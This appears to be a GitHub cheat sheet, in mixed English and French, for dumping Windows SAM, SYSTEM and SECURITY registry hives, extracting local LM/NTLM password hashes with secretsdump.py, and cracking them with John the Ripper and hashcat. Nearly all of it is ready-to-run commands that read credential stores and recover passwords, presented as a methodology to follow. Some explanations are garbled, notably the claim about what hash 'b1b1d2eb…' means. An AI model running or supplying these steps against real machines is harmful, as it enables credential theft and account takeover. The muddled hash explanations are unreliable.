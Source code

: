 ## 1. Dump the Windows files which contain the local password hashes (Windows registry files: SAM, SECURITY and SYSTEM):

Dump les fichiers de registre à l'aide de "REG SAVE" (nécessite les droits admin):
```
reg save HKLM\SAM C:\temp\sam
reg save HKLM\SYSTEM C:\temp\system 
reg save HKLM\SECURITY C:\temp\security
```



## 2. Extract the windows local password hashes:

```
secretsdump.py -sam sam -security security -system system LOCAL
```



## 3. Hash formats :

Two types of hashes are present in SAM file
	- LM (old storage method of Windows)
	- NTLM

	
Examples of hash

	[username]::[LM]:[NTLM]:::

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1000:aad3b435b51404eeaad3b435b51404ee:0b82e1dace77e29dd1de00896ba1c5bc:::
```
		
- If the LM hash has the value "aad3b435b51404eeaad3b435b51404ee" so the password is not storage in the LM hash
- If the NTLM hash has the value "31d6cfe0d16ae931b73c59d7e0c089c0" so the password is empty (potentially due to a desactivated account)
- If the NTLM hash has the value "b1b1d2ebf0bb5707135a9032caea49d3" so we have the same password



## 4. John the ripper - Crack the password hashes :

#### General commands and rules
	
	john [type of attack] --format=[hash of the format] 
			
	--rules:Single
	--rules:Wordlist
	--rules:Extra
	--rules:Jumbo (all the above)
	--rules:KoreLogic
	--rules:All (all the above)


#### Cracking methodoloy :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
			
2. Verify login=password
```
john --single --format=[LM|NTLM] hashes.txt --fork=4
```

3. Standards dictionnary attacks with[out] rules
```
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4 --rules=KoreLogic
```	
			
Be careful, the rules=all parameter is very long. With a lot of hashes, this operation will working during several days.

4. Show result:
	
The cracked hashes are located in the corresponding .pot file
		
	john --format=LM hashes.txt --show
	john --format=NTLM hashes.txt --show


## 5. Hashcat - Crack the password hashes :

#### General commands and rules
```			
hashcat -m <typeOfHash> -a <typeOfAttack> -o <outputFile> <hashesFile.txt> <dictionaryFile.txt>
```		
			
Advances attacks (option -a)
```
0 - Straight : It is the default attack which is also the dictionary attack
1 - Combination : This attack permits to combine several dictionaries. Example: With a wordlist of fruits and a second with color, we obtain a combined wordlist with combinations like : BananaRed, BananaGreen, AppleRed, AppleGreen
3 - Brute-forcing : Traditional Brute-forcing attack which will try each possible combination. Compatible with Masks-Attacks and Rules-Attacks
4 - Permutation : Attack which change the order of the letter for each word of the dictionary. Example with the password 123: 132, 213, 231, 312, 321
```
			
#### Cracking methodology :
		
1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :

		"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
		"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
		"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
		

2. Verify login=password

➤ For LM hash :
	Generate the list of the login
		cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt
	Try login=password 
		hashcat -m 3000 hash.txt [LOGIN].txt
			
➤ For NTLM hash :
	Generate the list of the login
		cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt
	Try login=password 
		hashcat -m 1000 hash.txt [LOGIN].txt
			
3. Dictionnary attack
	For LM hash :
		hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt --force
			
	For NTLM hash:
		hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt --force

4. Dictionnary attack with rules

To see the existing rules attacks
		ls -l /usr/share/hashcat/rules/
			
		➤ For LM hash :
		hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt  -r [Rules_path] --force
			
		➤ For NTLM hash:
		hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -r [Rules_path] --force
			
5. Show cracked/not cracked passwords
		➤ For LM hash :
		hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt -show
			
		➤ For NTLM hash:
		hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -show
